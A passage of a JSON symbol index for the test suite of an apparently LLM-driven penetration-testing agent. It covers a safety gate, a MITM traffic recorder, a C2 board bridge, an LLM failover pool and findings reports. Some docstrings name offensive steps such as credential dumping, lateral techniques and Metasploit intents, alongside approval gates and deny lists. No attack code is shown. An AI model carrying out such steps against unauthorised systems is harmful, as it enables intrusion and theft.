monkeypatch)"}, {"kind": "function", "line": 175, "name": "test_tool_calling_flag_honors_payload", "signature": "def test_tool_calling_flag_honors_payload(tmp_path, monkeypatch)"}, {"kind": "function", "line": 184, "name": "test_external_opencode_degrades_without_binary", "signature": "def test_external_opencode_degrades_without_binary(monkeypatch)"}, {"kind": "function", "line": 194, "name": "test_lazy_agent_command_session_lifecycle", "signature": "def test_lazy_agent_command_session_lifecycle(tmp_path, monkeypatch)"}, {"kind": "method", "line": 26, "name": "__init__", "signature": "def __init__(self, script)"}, {"doc": "Return the next scripted response, recording the request.", "kind": "method", "line": 30, "name": "create", "signature": "def create(self)"}, {"kind": "function", "line": 85, "name": "_executor", "signature": "def _executor(command)"}, {"kind": "class", "line": 162, "name": "_Completions", "signature": "class _Completions"}, {"kind": "method", "line": 163, "name": "create", "signature": "def create(self)"}]}, {"doc": "Lazy engine (LAZY-faithful) regression tests with stub executor.", "id": "tests/test_lazy_engine.py", "kind": "module", "label": "test_lazy_engine.py", "language": "py", "sha256": "51a84434b399678f", "symbol_count": 11, "symbols": [{"kind": "function", "line": 11, "name": "_stub_executor", "signature": "def _stub_executor(command)"}, {"kind": "function", "line": 23, "name": "engine", "signature": "def engine(tmp_path, monkeypatch)"}, {"kind": "function", "line": 35, "name": "test_create_auto_scope_and_asset", "signature": "def test_create_auto_scope_and_asset(engine)"}, {"kind": "function", "line": 42, "name": "test_scope_strict_no_external_intents", "signature": "def test_scope_strict_no_external_intents(engine)"}, {"kind": "function", "line": 52, "name": "test_no_premature_done_goals_pending", "signature": "def test_no_premature_done_goals_pending(engine)"}, {"kind": "function", "line": 61, "name": "test_worker_aggregates_single_fact", "signature": "def test_worker_aggregates_single_fact(engine)"}, {"kind": "function", "line": 67, "name": "test_pause_resume", "signature": "def test_pause_resume(engine)"}, {"kind": "function", "line": 77, "name": "test_prove_goal_needs_reason_and_evidence", "signature": "def test_prove_goal_needs_reason_and_evidence(engine)"}, {"kind": "function", "line": 87, "name": "test_lazy_alias_surface", "signature": "def test_lazy_alias_surface()"}, {"doc": "BDD: deleting a task removes its files and leaves siblings intact.", "kind": "function", "line": 97, "name": "test_delete_task_sweeps_only_its_store_files", "signature": "def test_delete_task_sweeps_only_its_store_files(engine, tmp_path)"}, {"doc": "BDD: deleting an unknown task is a no-op, not an error.", "kind": "function", "line": 111, "name": "test_delete_task_unknown_returns_empty", "signature": "def test_delete_task_unknown_returns_empty(engine)"}]}, {"doc": "Traffic recorder trigram search and frozen evidence package export.  Pins two parity contracts: mid-token body search through the trigram FTS index (with in-place migration from the legacy tokenizer), and the hash-manifested evidence zip produced at terminal status.", "id": "tests/test_lazy_evidence.py", "kind": "module", "label": "test_lazy_evidence.py", "language": "py", "sha256": "5f2dbf04695cdc39", "symbol_count": 3, "symbols": [{"doc": "A substring inside a token matches through the trigram index.", "kind": "function", "line": 16, "name": "test_trigram_search_finds_mid_token", "signature": "def test_trigram_search_finds_mid_token(tmp_path)"}, {"doc": "A pre-trigram index is rebuilt so substring search keeps working.", "kind": "function", "line": 34, "name": "test_legacy_fts_is_migrated_in_place", "signature": "def test_legacy_fts_is_migrated_in_place(tmp_path)"}, {"doc": "The evidence zip carries a manifest whose hashes verify the files.", "kind": "function", "line": 53, "name": "test_export_evidence_freezes_files_with_hashes", "signature": "def test_export_evidence_freezes_files_with_hashes(tmp_path, monkeypatch)"}]}, {"doc": "Production loop fidelity tests: guard judge, findings, settlement, bridge.", "id": "tests/test_lazy_loop.py", "kind": "module", "label": "test_lazy_loop.py", "language": "py", "sha256": "f9a4b46dc03cb0ce", "symbol_count": 36, "symbols": [{"doc": "Return an engine whose stores live entirely under tmp_path.", "kind": "function", "line": 8, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "BDD: wrap-up wording depends on agent and stop reason.", "kind": "function", "line": 18, "name": "test_settlement_prompt_variants", "signature": "def test_settlement_prompt_variants()"}, {"doc": "BDD: the frontier claims strictly by priority then id.", "kind": "function", "line": 31, "name": "test_intent_priority_claim_pause_resume", "signature": "def test_intent_priority_claim_pause_resume(tmp_path, monkeypatch)"}, {"doc": "BDD: soft delete keeps outputs, hard delete cascades exclusives.", "kind": "function", "line": 50, "name": "test_intent_soft_and_hard_delete", "signature": "def test_intent_soft_and_hard_delete(tmp_path, monkeypatch)"}, {"doc": "BDD: judge JSON is strict and LLM outages apply the fail policy.", "kind": "function", "line": 73, "name": "test_guard_judge_parse_and_fail_policy", "signature": "def test_guard_judge_parse_and_fail_policy(tmp_path, monkeypatch)"}, {"doc": "BDD: with the judge on, unmatched commands follow the fail policy.", "kind": "function", "line": 90, "name": "test_guard_judge_gates_when_enabled", "signature": "def test_guard_judge_gates_when_enabled(tmp_path, monkeypatch)"}, {"doc": "BDD: lazy_guard judge on persists the config and gates immediately.", "kind": "function", "line": 110, "name": "test_guard_set_judge_persists_and_gates", "signature": "def test_guard_set_judge_persists_and_gates(tmp_path, monkeypatch)"}, {"doc": "BDD: evidence binding and report writes bump the version.", "kind": "function", "line": 134, "name": "test_finding_evidence_version_and_report", "signature": "def test_finding_evidence_version_and_report(tmp_path, monkeypatch)"}, {"doc": "BDD: skills match by keyword, pin on the task and reach the prompt.", "kind": "function", "line": 152, "name": "test_skills_match_inject_and_prompt_context", "signature": "def test_skills_match_inject_and_prompt_context(tmp_path, monkeypatch)"}, {"doc": "BDD: custom tools execute and surface as planner/worker intents.", "kind": "function", "line": 177, "name": "test_custom_tools_run_and_loop_wiring", "signature": "def test_custom_tools_run_and_loop_wiring(tmp_path, monkeypatch)"}, {"doc": "BDD: workspace IO works inside the root and blocks traversal.", "kind": "function", "line": 203, "name": "test_workspace_confined_io", "signature": "def test_workspace_confined_io(tmp_path, monkeypatch)"}, {"doc": "BDD: selfupdate fast-forwards a clean clone and refuses dirty ones.", "kind": "function", "line": 226, "name": "test_selfupdate_check_and_apply", "signature": "def test_selfupdate_check_and_apply(tmp_path, monkeypatch)"}, {"doc": "BDD: loop tasks mirror into the C2 Kanban board without duplicates.", "kind": "function", "line": 266, "name": "test_c2_board_bridge_upserts", "signature": "def test_c2_board_bridge_upserts(tmp_path, monkeypatch)"}, {"doc": "BDD: reports render to md/csv and a terminal run writes one.", "kind": "function", "line": 289, "name": "test_report_export_md_csv_and_terminal_trigger", "signature": "def test_report_export_md_csv_and_terminal_trigger(tmp_path, monkeypatch)"}, {"doc": "BDD: the task_create trigger reports new tasks exactly once.", "kind": "function", "line": 313, "name": "test_trigger_task_create_fires_once", "signature": "def test_trigger_task_create_fires_once(tmp_path, monkeypatch)"}, {"doc": "BDD: slack/email/file channels deliver with severity floors.", "kind": "function", "line": 333, "name": "test_notifier_channels_slack_email_file", "signature": "def test_notifier_channels_slack_email_file(tmp_path, monkeypatch)"}, {"doc": "BDD: terminal tasks fan out a task_status event to channels.", "kind": "function", "line": 398, "name": "test_task_status_notification_on_terminal", "signature": "def test_task_status_notification_on_terminal(tmp_path, monkeypatch)"}, {"doc": "BDD: capped engines queue tasks FIFO and drain them when slots free.", "kind": "function", "line": 411, "name": "test_admission_queue_fifo_and_drain", "signature": "def test_admission_queue_fifo_and_drain(tmp_path, monkeypatch)"}, {"doc": "BDD: prompt context caps size and surfaces digests over raw facts.", "kind": "function", "line": 436, "name": "test_build_prompt_context_bounded_with_digests", "signature": "def test_build_prompt_context_bounded_with_digests(tmp_path, monkeypatch)"}, {"doc": "BDD: an operator verdict is stored and fixed closes the finding.", "kind": "function", "line": 454, "name": "test_record_verdict_manual", "signature": "def test_record_verdict_manual(tmp_path, monkeypatch)"}, {"doc": "BDD: the engine broadcast board and traces back the same graph.", "kind": "function", "line": 477, "name": "test_broadcast_rows_and_worker_traces", "signature": "def test_broadcast_rows_and_worker_traces(tmp_path, monkeypatch)"}, {"doc": "BDD: the bridge reads one engine-shaped fixture without real sessions.", "kind": "function", "line": 504, "name": "test_bridge_reads_engine_store_fixture", "signature": "def test_bridge_reads_engine_store_fixture(tmp_path, monkeypatch)"}, {"doc": "BDD: deleting a task removes its files and leaves siblings intact.", "kind": "function", "line": 536, "name": "test_delete_task_sweeps_store_files", "signature": "def test_delete_task_sweeps_store_files(tmp_path, monkeypatch)"}, {"kind": "function", "line": 549, "name": "test_lazy_command_set_registered", "signature": "def test_lazy_command_set_registered()"}, {"kind": "function", "line": 569, "name": "test_mcp_lazy_handlers_registered", "signature": "def test_mcp_lazy_handlers_registered()"}, {"doc": "BDD: every registered lazy handler is declared in list_tools.", "kind": "function", "line": 579, "name": "test_mcp_lazy_tools_declared_for_every_handler", "signature": "def test_mcp_lazy_tools_declared_for_every_handler()"}, {"kind": "function", "line": 232, "name": "git", "signature": "def git(cwd)"}, {"kind": "function", "line": 345, "name": "fake_post", "signature": "def fake_post(url, data, timeout)"}, {"kind": "class", "line": 351, "name": "_Smtp", "signature": "class _Smtp"}, {"kind": "function", "line": 384, "name": "_is_hooks_url", "signature": "def _is_hooks_url(url)"}, {"kind": "method", "line": 352, "name": "__init__", "signature": "def __init__(self, host, port, timeout)"}, {"kind": "method", "line": 355, "name": "__enter__", "signature": "def __enter__(self)"}, {"kind": "method", "line": 358, "name": "__exit__", "signature": "def __exit__(self)"}, {"kind": "method", "line": 361, "name": "starttls", "signature": "def starttls(self)"}, {"kind": "method", "line": 364, "name": "login", "signature": "def login(self, user, password)"}, {"kind": "method", "line": 367, "name": "send_message", "signature": "def send_message(self, message)"}]}, {"doc": "Orchestrator admin console: headless smoke and real persistence.  The app is driven through Textual's ``run_test`` pilot; configuration, LLM chain and guard edits use sandboxed stores so nothing touches the real sessions or payload.", "id": "tests/test_lazy_orchestrator.py", "kind": "module", "label": "test_lazy_orchestrator.py", "language": "py", "sha256": "52cdc0f06290ad79", "symbol_count": 15, "symbols": [{"doc": "Sandbox the lazy store for every test in this module.", "kind": "function", "line": 16, "name": "sandbox", "signature": "def sandbox(tmp_path, monkeypatch)"}, {"doc": "Config tab edits merge into the payload file without dropping keys.", "kind": "function", "line": 25, "name": "test_orchestrator_config_saves_to_payload", "signature": "def test_orchestrator_config_saves_to_payload(sandbox)"}, {"doc": "Add/remove helpers round-trip through the real stores.", "kind": "function", "line": 51, "name": "test_orchestrator_models_and_guard_actions", "signature": "def test_orchestrator_models_and_guard_actions(sandbox)"}, {"doc": "The Now pane tails the active task's activity stream.", "kind": "function", "line": 69, "name": "test_orchestrator_now_shows_activity", "signature": "def test_orchestrator_now_shows_activity(sandbox)"}, {"kind": "function", "line": 92, "name": "test_orchestrator_command_registered", "signature": "def test_orchestrator_command_registered()"}, {"doc": "In-memory payload so orchestrator config writes stay sandboxed.", "kind": "function", "line": 99, "name": "payload_store", "signature": "def payload_store(monkeypatch)"}, {"doc": "Stage enable/disable flags persist under orchestrator.stages.", "kind": "function", "line": 120, "name": "test_stage_toggles_persist", "signature": "def test_stage_toggles_persist(payload_store)"}, {"doc": "Disabled verbs leave planning and execution; custom verbs join both.", "kind": "function", "line": 135, "name": "test_auto_verb_enable_disable_and_custom", "signature": "def test_auto_verb_enable_disable_and_custom(payload_store)"}, {"doc": "Disabling the workers stage pauses frontier execution.", "kind": "function", "line": 157, "name": "test_engine_respects_disabled_workers", "signature": "def test_engine_respects_disabled_workers(payload_store, tmp_path, monkeypatch)"}, {"doc": "Pipeline and Verbs tabs render one row per entry.", "kind": "function", "line": 176, "name": "test_orchestrator_tables_render", "signature": "def test_orchestrator_tables_render(payload_store)"}, {"kind": "function", "line": 36, "name": "_drive", "signature": "def _drive()"}, {"kind": "function", "line": 81, "name": "_drive", "signature": "def _drive()"}, {"kind": "function", "line": 103, "name": "_load", "signature": "def _load(target)"}, {"kind": "function", "line": 106, "name": "_save", "signature": "def _save(data, target)"}, {"kind": "function", "line": 183, "name": "_drive", "signature": "def _drive()"}]}, {"doc": "LAZY parity proof tests: every ported subsystem must behave, not just exist.  Covers the gate (intercept allow/deny/ask), global scope deny, evidence vault roundtrip, traffic exchange log, planner frontier + todos, goal lifecycle, LLM failover pool, and the ephemeral sonner-style toast path. Each test drives the real module used by the engage daemon and auto_loop.", "id": "tests/test_lazy_parity.py", "kind": "module", "label": "test_lazy_parity.py", "language": "py", "sha256": "e6261ce131a3b537", "symbol_count": 26, "symbols": [{"doc": "A recon scan passes the safety gate.", "kind": "function", "line": 50, "name": "test_gate_allows_benign_command", "signature": "def test_gate_allows_benign_command()"}, {"doc": "Filesystem wipes never reach execution.", "kind": "function", "line": 56, "name": "test_gate_denies_destructive_command", "signature": "def test_gate_denies_destructive_command()"}, {"doc": "Credential dumping parks as ask and resolves via decide.", "kind": "function", "line": 62, "name": "test_gate_ask_creates_decidable_approval", "signature": "def test_gate_ask_creates_decidable_approval()"}, {"doc": "Timed-out approvals leave the pending set (fail-closed).", "kind": "function", "line": 73, "name": "test_gate_ask_expires_fail_closed", "signature": "def test_gate_ask_expires_fail_closed()"}, {"doc": "Global deny list mirrors LAZY asset-intercept parity.", "kind": "function", "line": 82, "name": "test_scope_blocks_protected_suffixes", "signature": "def test_scope_blocks_protected_suffixes()"}, {"doc": "Payload deny entries block matching commands.", "kind": "function", "line": 89, "name": "test_constraints_deny_wins", "signature": "def test_constraints_deny_wins()"}, {"doc": "Stored output comes back byte-identical under its hash.", "kind": "function", "line": 96, "name": "test_evidence_roundtrip", "signature": "def test_evidence_roundtrip(tmp_path)"}, {"doc": "Flipping one byte fails the integrity check on read.", "kind": "function", "line": 104, "name": "test_evidence_rejects_tampered_blob", "signature": "def test_evidence_rejects_tampered_blob(tmp_path)"}, {"doc": "Blobs nobody references past the grace period are collected.", "kind": "function", "line": 117, "name": "test_evidence_gc_drops_unreferenced", "signature": "def test_evidence_gc_drops_unreferenced(tmp_path)"}, {"doc": "Each step exchange is queryable by host with its body.", "kind": "function", "line": 128, "name": "test_traffic_record_and_query", "signature": "def test_traffic_record_and_query(tmp_path)"}, {"doc": "Refill emits untried intents; pop marks them tried.", "kind": "function", "line": 138, "name": "test_frontier_emits_then_dedupes", "signature": "def test_frontier_emits_then_dedupes()"}, {"doc": "Lateral techniques wait until the creds step is done.", "kind": "function", "line": 149, "name": "test_todos_gate_lateral_on_creds", "signature": "def test_todos_gate_lateral_on_creds()"}, {"doc": "Keyword objectives split into verifiable goals proven by evidence.", "kind": "function", "line": 161, "name": "test_goals_decompose_and_prove", "signature": "def test_goals_decompose_and_prove()"}, {"doc": "A dead head member falls through to the next rank.", "kind": "function", "line": 172, "name": "test_pool_fails_over_in_rank_order", "signature": "def test_pool_fails_over_in_rank_order()"}, {"doc": "Three strikes parks the member until backoff expires.", "kind": "function", "line": 192, "name": "test_pool_skips_unhealthy_member", "signature": "def test_pool_skips_unhealthy_member()"}, {"doc": "Total outage raises instead of returning an empty string.", "kind": "function", "line": 214, "name": "test_pool_exhausted_when_all_fail", "signature": "def test_pool_exhausted_when_all_fail()"}, {"doc": "Sticky session headers carry conv, role and index.", "kind": "function", "line": 227, "name": "test_pool_session_key_format", "signature": "def test_pool_session_key_format()"}, {"doc": "Sonner-style lines reuse theme roles with per-level delays.", "kind": "function", "line": 233, "name": "test_ephemeral_toast_line_has_icon_and_duration", "signature": "def test_ephemeral_toast_line_has_icon_and_duration()"}, {"doc": "Ephemeral render prints once; the shared cursor advances like render.", "kind": "function", "line": 253, "name": "test_ephemeral_render_consumes_cursor", "signature": "def test_ephemeral_render_consumes_cursor(tmp_path)"}, {"doc": "The payload flag selects panel vs sonner-style rendering.", "kind": "function", "line": 266, "name": "test_ephemeral_flag_routing", "signature": "def test_ephemeral_flag_routing()"}, {"doc": "One-shot helper mirrors render_toasts semantics.", "kind": "function", "line": 273, "name": "test_render_ephemeral_helper", "signature": "def test_render_ephemeral_helper(tmp_path)"}, {"kind": "function", "line": 285, "name": "_write_events", "signature": "def _write_events(path, records)"}, {"doc": "The persistent panel path is untouched by the ephemeral addition.", "kind": "function", "line": 292, "name": "test_bus_render_still_counts_budget", "signature": "def test_bus_render_still_counts_budget(tmp_path)"}, {"kind": "function", "line": 176, "name": "_fail", "signature": "def _fail(prompt)"}, {"kind": "function", "line": 180, "name": "_ok", "signature": "def _ok(prompt)"}, {"kind": "function", "line": 197, "name": "_flaky", "signature": "def _flaky(prompt)"}]}, {"doc": "Recorder proxy: CA, HTTP/HTTPS capture, engine ingestion, auto-binding.", "id": "tests/test_lazy_proxy.py", "kind": "module", "label": "test_lazy_proxy.py", "language": "py", "sha256": "035d3a93bc0e5c72", "symbol_count": 28, "symbols": [{"kind": "function", "line": 15, "name": "_patched_engine", "signature": "def _patched_engine(tmp_path, monkeypatch)"}, {"doc": "Minimal upstream returning a JSON body.", "kind": "class", "line": 24, "name": "_EchoHandler", "signature": "class _EchoHandler(BaseHTTPRequestHandler)"}, {"kind": "function", "line": 39, "name": "_start_upstream", "signature": "def _start_upstream(tls_context)"}, {"kind": "function", "line": 47, "name": "_read_until", "signature": "def _read_until(sock, marker, limit)"}, {"doc": "BDD: generated leaves chain to the CA and cover the host name.", "kind": "function", "line": 57, "name": "test_ca_and_leaf_verify", "signature": "def test_ca_and_leaf_verify(tmp_path)"}, {"doc": "BDD: a proxied HTTP GET lands in the recorder with bodies.", "kind": "function", "line": 75, "name": "test_http_capture_records_exchange", "signature": "def test_http_capture_records_exchange(tmp_path)"}, {"doc": "BDD: CONNECT tunnels are terminated and recorded end to end.", "kind": "function", "line": 100, "name": "test_https_mitm_capture", "signature": "def test_https_mitm_capture(tmp_path)"}, {"doc": "BDD: the trust environment covers curl, requests and node.", "kind": "function", "line": 138, "name": "test_env_for_ca_exports_trust", "signature": "def test_env_for_ca_exports_trust(tmp_path)"}, {"doc": "BDD: round ingestion mirrors recorder rows into the task log.", "kind": "function", "line": 148, "name": "test_engine_ingests_recorder_rows", "signature": "def test_engine_ingests_recorder_rows(tmp_path, monkeypatch)"}, {"doc": "BDD: a fresh finding carries the latest exchanges as evidence.", "kind": "function", "line": 176, "name": "test_writeback_auto_binds_recent_traffic", "signature": "def test_writeback_auto_binds_recent_traffic(tmp_path, monkeypatch)"}, {"doc": "BDD: status reports the CA and exchanges; stop is idempotent.", "kind": "function", "line": 198, "name": "test_proxy_status_and_stop", "signature": "def test_proxy_status_and_stop(tmp_path)"}, {"doc": "BDD: status states HTTP and HTTPS capture via MITM.", "kind": "function", "line": 211, "name": "test_status_declares_https_mitm", "signature": "def test_status_declares_https_mitm(tmp_path)"}, {"doc": "BDD: the anchor is written once; later starts skip sudo entirely.", "kind": "function", "line": 223, "name": "test_install_ca_trust_prompts_only_when_needed", "signature": "def test_install_ca_trust_prompts_only_when_needed(tmp_path, monkeypatch)"}, {"doc": "BDD: FTS body search and archive export/import preserve traffic.", "kind": "function", "line": 254, "name": "test_recorder_body_search_and_archive_roundtrip", "signature": "def test_recorder_body_search_and_archive_roundtrip(tmp_path)"}, {"doc": "BDD: gc removes exchanges older than the cut-off and keeps fresh ones.", "kind": "function", "line": 282, "name": "test_recorder_gc_removes_old_exchanges", "signature": "def test_recorder_gc_removes_old_exchanges(tmp_path, monkeypatch)"}, {"doc": "BDD: per-task archives only carry that task's exchanges.", "kind": "function", "line": 300, "name": "test_task_scoped_query_and_export", "signature": "def test_task_scoped_query_and_export(tmp_path)"}, {"doc": "BDD: terminal task export plus interval-gated retention sweep.", "kind": "function", "line": 317, "name": "test_engine_exports_task_traffic_and_gc_runs_once", "signature": "def test_engine_exports_task_traffic_and_gc_runs_once(tmp_path, monkeypatch)"}, {"doc": "BDD: run_round imports inbox archives once and moves them aside.", "kind": "function", "line": 344, "name": "test_recorder_inbox_auto_import", "signature": "def test_recorder_inbox_auto_import(tmp_path, monkeypatch)"}, {"doc": "BDD: NSS install runs certutil per profile and skips trusted ones.", "kind": "function", "line": 371, "name": "test_install_ca_nss_with_fake_profiles", "signature": "def test_install_ca_nss_with_fake_profiles(tmp_path, monkeypatch)"}, {"doc": "BDD: blob-style ranged reads page through stored bodies.", "kind": "function", "line": 411, "name": "test_body_ranged_reads", "signature": "def test_body_ranged_reads(tmp_path)"}, {"doc": "BDD: a chained proxy forwards through the upstream and both record.", "kind": "function", "line": 434, "name": "test_upstream_chaining_captures_in_both", "signature": "def test_upstream_chaining_captures_in_both(tmp_path)"}, {"doc": "BDD: a WebSocket upgrade tunnels raw bytes and records the handshake.", "kind": "function", "line": 459, "name": "test_websocket_passthrough_recorded", "signature": "def test_websocket_passthrough_recorded(tmp_path)"}, {"doc": "BDD: finding evidence auto-binds proxy exchanges matching its text.", "kind": "function", "line": 509, "name": "test_writeback_auto_binds_body_hits", "signature": "def test_writeback_auto_binds_body_hits(tmp_path, monkeypatch)"}, {"kind": "method", "line": 27, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 35, "name": "log_message", "signature": "def log_message(self, fmt)"}, {"kind": "function", "line": 236, "name": "runner", "signature": "def runner(argv)"}, {"kind": "function", "line": 387, "name": "runner", "signature": "def runner(argv)"}, {"kind": "function", "line": 469, "name": "_serve", "signature": "def _serve()"}]}, {"doc": "Shared loop runner, monitor surface and store-fidelity regressions.  Covers the one-path contract between ``lazy_loop`` and ``auto_loop`` (modules/lazy_runner), the attach/embedded monitor command surface, and the store fixes that keep the engine auditable across processes: per-task asset gate on insert, judge config persistence, event-driven approval wake-ups, archive restore parity and detached bash fallback.", "id": "tests/test_lazy_runner.py", "kind": "module", "label": "test_lazy_runner.py", "language": "py", "sha256": "40b806b6bf031431", "symbol_count": 143, "symbols": [{"doc": "Sandbox the lazy store for every test in this module.", "kind": "function", "line": 21, "name": "store", "signature": "def store(tmp_path, monkeypatch)"}, {"kind": "function", "line": 30, "name": "test_parse_loop_line_flags", "signature": "def test_parse_loop_line_flags()"}, {"kind": "function", "line": 42, "name": "test_parse_loop_line_rejects_bad_input", "signature": "def test_parse_loop_line_rejects_bad_input()"}, {"kind": "function", "line": 50, "name": "test_config_clamps_operating_range", "signature": "def test_config_clamps_operating_range()"}, {"kind": "function", "line": 57, "name": "test_loop_commands_share_the_runner", "signature": "def test_loop_commands_share_the_runner()"}, {"kind": "function", "line": 67, "name": "test_guard_judge_survives_rule_changes", "signature": "def test_guard_judge_survives_rule_changes(store)"}, {"kind": "function", "line": 79, "name": "test_custom_tool_trigger_matches_services", "signature": "def test_custom_tool_trigger_matches_services(store)"}, {"kind": "function", "line": 90, "name": "test_intercept_wait_wakes_on_decide", "signature": "def test_intercept_wait_wakes_on_decide(store)"}, {"kind": "function", "line": 110, "name": "test_archive_restore_keeps_edges_anchors_scope", "signature": "def test_archive_restore_keeps_edges_anchors_scope(store)"}, {"kind": "function", "line": 133, "name": "test_asset_insert_enforces_task_gate", "signature": "def test_asset_insert_enforces_task_gate(store)"}, {"kind": "function", "line": 143, "name": "test_worker_bash_fallback_uses_streaming_runner", "signature": "def test_worker_bash_fallback_uses_streaming_runner(store, monkeypatch)"}, {"kind": "function", "line": 172, "name": "test_terminal_guard_is_safe_without_tty", "signature": "def test_terminal_guard_is_safe_without_tty()"}, {"kind": "function", "line": 181, "name": "test_autonomous_mode_flag_and_input_restore", "signature": "def test_autonomous_mode_flag_and_input_restore(monkeypatch)"}, {"kind": "function", "line": 196, "name": "test_automsf_intent_needs_a_module_path", "signature": "def test_automsf_intent_needs_a_module_path()"}, {"kind": "function", "line": 204, "name": "test_run_loop_drives_the_engine_and_reports", "signature": "def test_run_loop_drives_the_engine_and_reports(store, monkeypatch)"}, {"doc": "Regression: observer printing during stdout redirect must not loop.", "kind": "function", "line": 240, "name": "test_shell_verb_observer_print_is_recursion_safe", "signature": "def test_shell_verb_observer_print_is_recursion_safe()"}, {"kind": "function", "line": 259, "name": "test_terminal_stream_bypasses_stdout_redirect", "signature": "def test_terminal_stream_bypasses_stdout_redirect(monkeypatch)"}, {"kind": "function", "line": 276, "name": "test_judge_prompt_is_versioned_untrusted_json", "signature": "def test_judge_prompt_is_versioned_untrusted_json(store, monkeypatch)"}, {"kind": "function", "line": 293, "name": "test_worker_resumes_skipping_executed_steps", "signature": "def test_worker_resumes_skipping_executed_steps(store)"}, {"kind": "function", "line": 319, "name": "test_run_wrapup_records_fact_on_exhaustion", "signature": "def test_run_wrapup_records_fact_on_exhaustion(store, monkeypatch)"}, {"kind": "function", "line": 334, "name": "test_finding_report_drafted_by_reporter_agent", "signature": "def test_finding_report_drafted_by_reporter_agent(store, monkeypatch)"}, {"doc": "Create stale facts under one parent so the compactor can group them.", "kind": "function", "line": 353, "name": "_seed_cold_facts", "signature": "def _seed_cold_facts(graph, loop, count)"}, {"doc": "Stamp every structural-cold node as cold for exactly R rounds.", "kind": "function", "line": 363, "name": "_prime_cold", "signature": "def _prime_cold(compactor, loop)"}, {"kind": "function", "line": 372, "name": "test_cold_digest_applies_background_body", "signature": "def test_cold_digest_applies_background_body(store)"}, {"kind": "function", "line": 394, "name": "test_cold_background_disabled_requests_nothing", "signature": "def test_cold_background_disabled_requests_nothing(store, monkeypatch)"}, {"kind": "function", "line": 412, "name": "test_cold_background_worker_caches_compressed_body", "signature": "def test_cold_background_worker_caches_compressed_body(store, monkeypatch)"}, {"kind": "function", "line": 440, "name": "test_cross_task_fleet_operations", "signature": "def test_cross_task_fleet_operations(store)"}, {"kind": "function", "line": 474, "name": "test_llm_health_persists_across_registries", "signature": "def test_llm_health_persists_across_registries(tmp_path, monkeypatch)"}, {"kind": "function", "line": 488, "name": "test_llm_pool_rotates_equal_priority_heads", "signature": "def test_llm_pool_rotates_equal_priority_heads(store, monkeypatch)"}, {"kind": "function", "line": 507, "name": "test_llm_pool_connect_retry_before_failover", "signature": "def test_llm_pool_connect_retry_before_failover(store, monkeypatch)"}, {"kind": "function", "line": 528, "name": "test_broadcast_events_cursor_resume", "signature": "def test_broadcast_events_cursor_resume(store)"}, {"kind": "function", "line": 547, "name": "test_loop_broadcast_sse_route_declared", "signature": "def test_loop_broadcast_sse_route_declared()"}, {"kind": "function", "line": 556, "name": "test_noa_archive_written_when_enabled", "signature": "def test_noa_archive_written_when_enabled(store, monkeypatch)"}, {"doc": "Regression: a gone client must not raise from the 502 path.", "kind": "function", "line": 576, "name": "test_proxy_safe_send_error_swallows_dead_client", "signature": "def test_proxy_safe_send_error_swallows_dead_client()"}, {"doc": "Regression: connection errors log nothing instead of tracebacks.", "kind": "function", "line": 593, "name": "test_proxy_server_silences_connection_noise", "signature": "def test_proxy_server_silences_connection_noise()"}, {"kind": "function", "line": 613, "name": "test_proxy_handler_only_uses_safe_error_sender", "signature": "def test_proxy_handler_only_uses_safe_error_sender()"}, {"doc": "Regression: panel emits must not land in the runner's redirect.\n\nThe orchestrator thread redirects ``sys.stdout`` globally; if the\nprogress console resolved ``sys.stdout`` at print time, every emit\nwould loop back into the transcript queue forever (the invisible\nhung ``auto_loop``).", "kind": "function", "line": 619, "name": "test_progress_emit_never_feeds_stdout_redirect", "signature": "def test_progress_emit_never_feeds_stdout_redirect(capsys)"}, {"doc": "Regression: a slow orchestrator must not hang the runner thread.", "kind": "function", "line": 641, "name": "test_run_with_progress_finishes_and_streams", "signature": "def test_run_with_progress_finishes_and_streams(store, capsys)"}, {"kind": "function", "line": 685, "name": "test_format_activity_line", "signature": "def test_format_activity_line()"}, {"doc": "Every engine activity record reaches the panel as one line.", "kind": "function", "line": 692, "name": "test_run_with_progress_streams_activity_events", "signature": "def test_run_with_progress_streams_activity_events(store, capsys)"}, {"doc": "Steer must reach the model as a user turn and be cleared once.", "kind": "function", "line": 726, "name": "test_steer_delivered_to_agent_as_operator_message", "signature": "def test_steer_delivered_to_agent_as_operator_message(store, monkeypatch)"}, {"kind": "function", "line": 770, "name": "test_steer_cleared_after_delivery", "signature": "def test_steer_cleared_after_delivery(store)"}, {"doc": "Main thread keeps the real stream; worker threads only spool.", "kind": "function", "line": 781, "name": "test_thread_stdout_router_routes_by_thread", "signature": "def test_thread_stdout_router_routes_by_thread(capsys)"}, {"doc": "Regression: Ctrl+C must not leave sys.stdout hijacked by a zombie.", "kind": "function", "line": 806, "name": "test_run_with_progress_restores_stdout_on_cancel", "signature": "def test_run_with_progress_restores_stdout_on_cancel(store, monkeypatch, capsys)"}, {"doc": "cmd2 raises SystemExit on SIGINT; the loop must cancel, not crash.", "kind": "function", "line": 849, "name": "test_run_loop_treats_systemexit_as_cancel", "signature": "def test_run_loop_treats_systemexit_as_cancel(store, monkeypatch)"}, {"doc": "Meaningful events wake the engine; stream noise does not.", "kind": "function", "line": 878, "name": "test_wake_bus_signals_and_suppresses", "signature": "def test_wake_bus_signals_and_suppresses(store)"}, {"doc": "An operator event must trigger the next round, not the 30s wait.", "kind": "function", "line": 892, "name": "test_engine_wake_preempts_heartbeat", "signature": "def test_engine_wake_preempts_heartbeat(store)"}, {"doc": "With no events the engine waits for the heartbeat, then re-plans.", "kind": "function", "line": 927, "name": "test_engine_heartbeat_replans_when_idle", "signature": "def test_engine_heartbeat_replans_when_idle(store)"}, {"doc": "Background jobs are tracked, queryable and folded at finish.", "kind": "function", "line": 951, "name": "test_agent_background_jobs_and_output", "signature": "def test_agent_background_jobs_and_output(store)"}, {"doc": "shell_open/shell_send keep state across calls and close cleanly.", "kind": "function", "line": 999, "name": "test_agent_persistent_shell_session", "signature": "def test_agent_persistent_shell_session(store)"}, {"doc": "Background reporter drafts commit on the next round, not inline.", "kind": "function", "line": 1037, "name": "test_reporter_runs_background_and_applies", "signature": "def test_reporter_runs_background_and_applies(store, monkeypatch)"}, {"doc": "Evidence pages by byte ranges; binding accepts ARTEX roles.", "kind": "function", "line": 1068, "name": "test_evidence_ranged_read_and_roles", "signature": "def test_evidence_ranged_read_and_roles(store)"}, {"doc": "The final planner round stops the frontier instead of adding work.", "kind": "function", "line": 1100, "name": "test_finalize_parks_open_intents", "signature": "def test_finalize_parks_open_intents(store)"}, {"doc": "Pinned/matched skills reach 